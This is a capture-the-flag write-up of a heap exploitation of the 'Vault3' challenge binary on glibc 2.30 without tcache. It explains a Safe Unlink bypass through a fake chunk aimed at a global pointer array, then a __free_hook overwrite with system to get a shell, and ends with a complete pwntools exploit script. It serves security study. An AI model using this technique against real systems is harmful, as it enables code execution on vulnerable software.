

# Script CTF - Vault3 Challenge Writeup

## 0x00 - Initial Analysis

### Challenge Description

> Welcome to Connor's Fantastic Vault, where you can store all your valuables. We have gone through many renovations in our security and hopefully there should be no more hacks in our system.
>
> `(Note: this binary uses glibc version 2.30 without tcache)`


The note about the glibc version is a critical hint for solving this challenge.


### Binary Security

First, let's examine the binary's security properties using `checksec`.

```bash
$ checksec vault_patched
[*] '/home/delete/CTFs/ScriptCTF/vault3/vault_patched'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
```

I used `pwninit` to patch the binary, setting `RUNPATH` to the current directory. This ensures the provided `libc.so.6` is loaded instead of the system's default library.

## 0x01 - Vulnerability Analysis: Safe Unlink

The binary has a UAF vuln( Not removing the pointer after freeing it) but it has no use due to only being able to malloc 2 times.<br>
Free chunk goes to unsorted bin and in this condition we can't corrupt the head of linked list due to an unusual memory saving property of unsorted bin which is to merge into topchunk.
The exploit below uses the Heap overflow vuln.<br>
The challenge note explicitly states that the binary uses a glibc version without `tcache`. This means that freed chunks of appropriate sizes will be placed into the unsorted bin, which uses a doubly linked list to manage its free chunks. This structure is central to the classic "unlink" attack.

### What is Unlink?

Unlink is the process of removing a chunk from a doubly linked list of free chunks. By exploiting a vulnerability like a heap overflow, an attacker can corrupt the forward (`fd`) and backward (`bk`) pointers of a free chunk before it gets unlinked.

A free chunk `P` in a bin is structured as follows (simplified):

```c
struct malloc_chunk {
    size_t      mchunk_prev_size;  /* Size of previous chunk (if free). */
    size_t      mchunk_size;       /* Size in bytes, including overhead. */
    struct malloc_chunk* fd;       /* Forward pointer in the doubly linked list. */
    struct malloc_chunk* bk;       /* Backward pointer in the doubly linked list. */
    // ... more fields for large bins
};
```

When `malloc` unlinks chunk `P`, it performs the following pointer updates to mend the list:

```c
// Let FD be P->fd and BK be P->bk
FD->bk = BK;
BK->fd = FD;
```


If an attacker controls `P->fd` and `P->bk`, they can trigger an arbitrary write. For example, setting `P->fd` to an address `TARGET_ADDR - 0x18` and `P->bk` to a pointer `PTR` would cause the unlink macro to write `PTR` to `TARGET_ADDR`.

### The Safe Unlink Mitigation

To prevent this attack, modern glibc versions implement a security check known as "Safe Unlink". Before performing the pointer manipulation, `malloc` verifies the integrity of the list:

```c
// Check if P is correctly linked between its neighbors
if (P->fd->bk != P || P->bk->fd != P) {
    // If the check fails, the program aborts.
    malloc_printerr("corrupted double-linked list");
}
```



This check ensures that `P`'s forward neighbor points back to `P`, and `P`'s backward neighbor also points back to `P`. This validation makes the classic unlink attack impossible, as we cannot simply point `fd` and `bk` to arbitrary locations. However, we can still achieve an exploit by carefully crafting our heap layout to satisfy these checks.

## 0x02 - The Attack Plan

My initial attempts to perform a classic unlink attack failed with the `corrupted double-linked list` error, confirming that the Safe Unlink mitigation is active.

The strategy must therefore be to bypass this check. We can achieve this by finding a writable address in memory that points to a location we control. By setting a chunk's `fd` and `bk` pointers to this address, we can satisfy the `P->fd->bk == P` and `P->bk->fd == P` conditions, tricking `malloc` into performing the unlink and granting us a powerful write primitive.

## 0x03 - Exploit Development

Lets open our binary in `gdb` and analyze the heap layout.

```bash
Starting program: /home/delete/CTFs/ScriptCTF/vault3/vault_patched
puts address is 0x7ffff786faf0
Welcome
1. Create Vault
2. Store stuff in vault
3. Free vault
4. Exit
>
```

There is a libc leak which is useful in further exploit development.<br>
Now let's allocate two chunks and inspect the heap layout.

### Understanding Unsorted bins

```bash
pwndbg> vis

0x405000	0x0000000000000000	0x0000000000000091	................
0x405010	0x0000000000000000	0x0000000000000000	................
0x405020	0x0000000000000000	0x0000000000000000	................
0x405030	0x0000000000000000	0x0000000000000000	................
0x405040	0x0000000000000000	0x0000000000000000	................
0x405050	0x0000000000000000	0x0000000000000000	................
0x405060	0x0000000000000000	0x0000000000000000	................
0x405070	0x0000000000000000	0x0000000000000000	................
0x405080	0x0000000000000000	0x0000000000000000	................
0x405090	0x0000000000000000	0x0000000000000091	................
0x4050a0	0x0000000000000000	0x0000000000000000	................
0x4050b0	0x0000000000000000	0x0000000000000000	................
0x4050c0	0x0000000000000000	0x0000000000000000	................
0x4050d0	0x0000000000000000	0x0000000000000000	................
0x4050e0	0x0000000000000000	0x0000000000000000	................
0x4050f0	0x0000000000000000	0x0000000000000000	................
0x405100	0x0000000000000000	0x0000000000000000	................
0x405110	0x0000000000000000	0x0000000000000000	................
0x405120	0x0000000000000000	0x0000000000020ee1	................ <-- Top chunk

```

As you can see we have allocated two chunks of size `0x90`.<br>
Now let's free first chunk and see what happens.

```bash
pwndbg> vis

0x405000	0x0000000000000000	0x0000000000000091	................	 <-- unsortedbin[all][0]
0x405010	0x00007ffff7bb4bc0	0x00007ffff7bb4bc0	.K.......K......
0x405020	0x0000000000000000	0x0000000000000000	................
0x405030	0x0000000000000000	0x0000000000000000	................
0x405040	0x0000000000000000	0x0000000000000000	................
0x405050	0x0000000000000000	0x0000000000000000	................
0x405060	0x0000000000000000	0x0000000000000000	................
0x405070	0x0000000000000000	0x0000000000000000	................
0x405080	0x0000000000000000	0x0000000000000000	................
0x405090	0x0000000000000090	0x0000000000000090	................
0x4050a0	0x0000000000000000	0x0000000000000000	................
0x4050b0	0x0000000000000000	0x0000000000000000	................
0x4050c0	0x0000000000000000	0x0000000000000000	................
0x4050d0	0x0000000000000000	0x0000000000000000	................
0x4050e0	0x0000000000000000	0x0000000000000000	................
0x4050f0	0x0000000000000000	0x0000000000000000	................
0x405100	0x0000000000000000	0x0000000000000000	................
0x405110	0x0000000000000000	0x0000000000000000	................
0x405120	0x0000000000000000	0x0000000000020ee1	................	 <-- Top chunk
```

You can see that the first chunk has been added to the unsorted bin, while the second chunk remains allocated.
`fd` and `bk` now point to `main_arena` where our chunk address is stored

```bash
all: 0x405000 —▸ 0x7ffff7bb4bc0 (main_arena+96) ◂— 0x405000
```

Did you observe at `0x405090`? The value of is `0x90` which is `prev_size` and also `prev_insuse` bit is also cleared indicating that the previous chunk is freed. This behaviour is not shown in the tcache.<br> The chunks which are adjacent to top chunk that are too large qualify for fast bins are consolidated into the top chunk<br>
Try this by freeing chunk `0x405090`.

```bash
pwndbg> vis

0x405000	0x0000000000000000	0x0000000000021001	................	 <-- Top chunk
```

You can observe that both allocated chunks have been consolidated into the top chunk, because both chunks are freed and they are adjacent to each other.

### Overwriting `fd` and `bk` pointers

Now that we have understood how Unsorted bin works. Let's try to exploit it.<br>
There is a heap overflow bug in this challenge we can use this to overwrite the next chunks size field. How can we abuse this?<br>
We can trick free function to think that the previous is freed by setting `prev_inuse` bit to `0`.<br>

#### Now it's time to abuse `fd` and `bk` pointers 😈

```python
free_hook = libc.symbols['__free_hook']
system = libc.symbols['system']
prev_size = 0x90
fake_size = 0x90
payload = p64(free_hook) + p64(system) + p8(0)*0x70 + p64(prev_size) + p64(fake_size)
```

Let's send this payload and check in gdb.

```bash
0x14f11000	0x0000000000000000	0x0000000000000091	................
0x14f11010	0x000077cda23b6e20	0x000077cda2043200	 n;..w...2...w..
0x14f11020	0x0000000000000000	0x0000000000000000	................
0x14f11030	0x0000000000000000	0x0000000000000000	................
0x14f11040	0x0000000000000000	0x0000000000000000	................
0x14f11050	0x0000000000000000	0x0000000000000000	................
0x14f11060	0x0000000000000000	0x0000000000000000	................
0x14f11070	0x0000000000000000	0x0000000000000000	................
0x14f11080	0x0000000000000000	0x0000000000000000	................
0x14f11090	0x0000000000000090	0x0000000000000090	................
0x14f110a0	0x0000000000000000	0x0000000000000000	................
0x14f110b0	0x0000000000000000	0x0000000000000000	................
0x14f110c0	0x0000000000000000	0x0000000000000000	................
0x14f110d0	0x0000000000000000	0x0000000000000000	................
0x14f110e0	0x0000000000000000	0x0000000000000000	................
0x14f110f0	0x0000000000000000	0x0000000000000000	................
0x14f11100	0x0000000000000000	0x0000000000000000	................
0x14f11110	0x0000000000000000	0x0000000000000000	................
0x14f11120	0x0000000000000000	0x0000000000020ee1	................	 <-- Top chunk
```

We have overwritten `fd` with freehook and `bk` with system.

```c
// Let FD be P->fd and BK be P->bk
FD->bk = BK;
BK->fd = FD;
```

When this happens, it write our system address into freehook and when we call free it triggers system function.
Let's try to free second chunk so that program thinks that first chunk is already in unsorted bin and it is eligible for consolidation therefore it proceeds to unlink.<br>
But it doesn't work. It throws `corrupted double-linked list` at your face.<br>
Why this is happening?<br>

```c
if (P->fd->bk != P || P->bk->fd != P)
```

This check is ensuring that the forward and backward pointers are consistent with the current chunk being unlinked. If they are not, it indicates a corruption in the double-linked list structure, hence the error.
We need `fd` and `bk` pointers such that when the check happens it points to current chunk.<br>
If you open binary in IDA or Gidra you can observe that our allocated pointers are stored in binary named as `vaults`.

```bash
pwndbg> dq &vaults
0000000000404090     0000000000405010 00000000004050a0
00000000004040a0     0000000000000000 0000000000000000
00000000004040b0     0000000000000000 0000000000000000
00000000004040c0     0000000000000000 0000000000000000
```

What if we use `vaults` address as `fd` and `bk` pointers? This way, we can ensure that the double-linked list structure remains intact during the unlinking process, and we can successfully exploit the vulnerability.

```python
fd  = elf.sym.vaults-0x18
bk = elf.sym.vaults-0x10
```

In `fd` first two 8 bytes goes for heap metadata and 4th quadword points to our pointer. Similarly, in `bk` first two 8 bytes goes for heap metadata and 3rd quadword points to our pointer.<br>
We can bypass the check easily and trigger the unlinking process without any issues.<br>
Now let's free the second chunk.

```python
payload = p64(fd) + p64(bk) + p8(0)*0x70 + p64(prev_size) + p64(fake_size)
```

Oopss! We again encountered `corrupted double-linked list` error. This is because malloc uses metadata pointers i.e in this case the pointer should be `0x405000` but we are passing `0x405010` so it tries to look for `fd` and `bk` at `0x405020` and `0x405028` instead of `0x405010` and `0x405018`.<br>
Let's Craft a fake chunk.

```python
prev_size = 0x80
fake_size = 0x90
fd  = elf.sym.vaults-24
bk = elf.sym.vaults-0x10

payload = p64(0) + p64(0x80) # Heap metadata
payload += p64(fd) + p64(bk) # fd and bk
payload += p8(0)*0x60
payload += p64(prev_size) + p64(fake_size)
```

Now lets run again and try to free second chunk. Lets inspect the memory layout.<br>

Don't use vis in pwndbg after free instead use `dq mp_.sbrk_base` to check heap


```bash
pwndbg> dq mp_.sbrk_base
00000000095a8000     0000000000000000 0000000000000091
00000000095a8010     0000000000000000 0000000000020ff1
00000000095a8020     0000000000404078 0000000000404080
00000000095a8030     0000000000000000 0000000000000000
pwndbg> dq &vaults
0000000000404090     0000000000404078 00000000095a80a0
00000000004040a0     0000000000000000 0000000000000000
00000000004040b0     0000000000000000 0000000000000000
00000000004040c0     0000000000000000 0000000000000000
pwndbg> dq 0x404070
0000000000404070     00007fbbf53b4960 0000000000000000
0000000000404080     00007fbbf53b55a0 0000000000000000
0000000000404090     0000000000404078 00000000095a80a0
00000000004040a0     0000000000000000 0000000000000000
```

You can see that the first entry of `vaults` is `0x0404078` which is 0x18 bytes away from it. Effectively it allocated a chunk which is `0x18` bytes away from `vaults`. So if we try to write in first chunk which is not freed we end up writing at `0x0404078`.

```python
free(1)
edit(0,p64(0xcafebabedeadbeef))
```

```bash
pwndbg> dq 0x404070
0000000000404070     00007697e21b4960 cafebabedeadbeef
0000000000404080     00007697e21b550a 0000000000000000
0000000000404090     0000000000404078 000000002c69c0a0
00000000004040a0     0000000000000000 0000000000000000
```

### Final Stage of exploitation

#### Approach-1

Now let's try to overwrite the `vaults` first entry to `__free_hook`.

```python
edit(0, p64(0)*3 + p64(free_hook-0x8))
```

Why `__free_hook-0x8`?<br>
We dont have `/bin/sh\x00` string so lets write it at `__free_hook-0x8` and `__free_hook` with `system` address.
Effectively we are calling `system('/bin/sh\x00')`

```python
edit(0, p64(0)*3 + p64(free_hook-0x8))
edit(0,b'/bin/sh\x00'+p64(system))
```

#### Approach-2

```python

edit(0, b"X"*0x18 + p64(libc.sym.__free_hook) + p64(0x08) + p64(next(libc.search("/bin/sh"))))

edit(0, p64(libc.sym.system))
```

Use the "edit" option to overwrite the first entry in `vaults` again with the address of the free hook.<br>
Set the request size value of this entry to 8 and set up a pointer to an existing `/bin/sh` string in another `vaults` entry.<br>
Use the "edit" option once more to overwrite the free hook with the address of system().

Finally, lets use free to get shell!!<br>

#### For those who are still confused what's happening here I will try to explain.<br>

I guess you understood till the point where we set up `fd` and `bk` pointers. What's happening after free(1)?<br>
Unlink check is passed and we are effectively getting permission to write at `vaults-0x18`. How it's happening?<br>
Remember the Unlink Process?<br>

```c
// Let FD be P->fd and BK be P->bk
FD->bk = BK;
BK->fd = FD;
```

Here `FD` is `vaults-0x18` and `BK` is `vaults-0x10`. So effectively we are writing the address of `vaults-0x18` into `vaults` i.e we are changing the malloc pointer to `vaults-0x18`.

```python
edit(0, p64(0)*3 + p64(free_hook-0x8))
```

After this step we are effectively writing the address of `free_hook-0x8` into `vaults`, i.e we are changing the malloc pointer to `free_hook-0x8`.<br>
So we can use the `edit` function to write the `/bin/sh` string and the `system` address into the appropriate locations.

# 0x04 Exploit Script

```python
from pwn import *

elf = context.binary = ELF('./vault_patched')
libc = elf.libc

def malloc(index):
    p.sendline(b'1')
    p.sendline(str(index).encode())
def edit(index, data):
    p.sendline(b'2')
    p.sendline(str(index).encode())
    p.sendline(data)
def free(index):
    p.sendline(b'3')
    p.sendline(str(index).encode())

p = process('./vault_patched')
p.recvuntil(b'0x')
leak = int(p.recvline().strip(), 16)
log.critical(f"Leak: {leak:#x}")
libc.address = leak - 0x6faf0
log.info(f"Libc base: {libc.address:#x}")

malloc(0)
malloc(1)

free_hook = libc.symbols['__free_hook']
system = libc.symbols['system']
log.critical(f"Free hook: {free_hook:#x}")
log.critical(f"System: {system:#x}")
prev_size = 0x80
fake_size = 0x90
fd  = elf.sym.vaults-24
bk = elf.sym.vaults-0x10

payload = p64(0) + p64(0x80)+ p64(fd) + p64(bk) + p8(0)*0x60 + p64(prev_size) + p64(fake_size)
edit(0, payload)
free(1)
edit(0, p64(0)*3 + p64(free_hook-0x8))
edit(0,b'/bin/sh\x00'+p64(system))
free(0)
# gdb.attach(p)
p.interactive()
```

# 0x05 Summary

This writeup demonstrates a comprehensive Safe Unlink heap exploitation technique against the Vault3 challenge from ScriptCTF 2025. The challenge specifically uses glibc 2.30 without tcache, making it vulnerable to classic heap exploitation methods.

## Key Findings

**Binary Analysis:**

- 64-bit ELF with minimal protections (no PIE, no canaries, partial RELRO)
- Heap overflow vulnerability in the vault storage functionality
- Global `vaults` array storing heap pointers at a known address

**Exploitation Strategy:**

1. **Understanding the Environment:** The absence of tcache means freed chunks go directly to unsorted bins, enabling traditional unlink attacks
2. **Bypassing Safe Unlink:** Modern glibc implements integrity checks (`P->fd->bk == P && P->bk->fd == P`) to prevent arbitrary writes
3. **Crafting the Attack:** Created a fake chunk with carefully calculated `fd` and `bk` pointers targeting the global `vaults` array
4. **Achieving Arbitrary Write:** Successfully triggered unlink operation to gain write-what-where primitive
5. **Code Execution:** Overwrote `__free_hook` with `system` address and `/bin/sh` string to spawn a shell

## Technical Highlights

- **Safe Unlink Bypass:** Used `vaults-24` and `vaults-16` as `fd`/`bk` pointers to satisfy integrity checks
- **Fake Chunk Construction:** Precisely crafted heap metadata to fool malloc's chunk validation
- **Memory Layout Control:** Leveraged heap overflow to manipulate adjacent chunk headers and trigger consolidation
- **Hook Hijacking:** Exploited `__free_hook` mechanism for reliable code execution

The exploit demonstrates the enduring relevance of classic heap exploitation techniques in environments without modern mitigations like tcache, showcasing how fundamental understanding of glibc internals remains crucial for security research.

# References

https://infosecwriteups.com/the-toddlers-introduction-to-heap-exploitation-unsafe-unlink-part-4-3-75e00e1b0c68
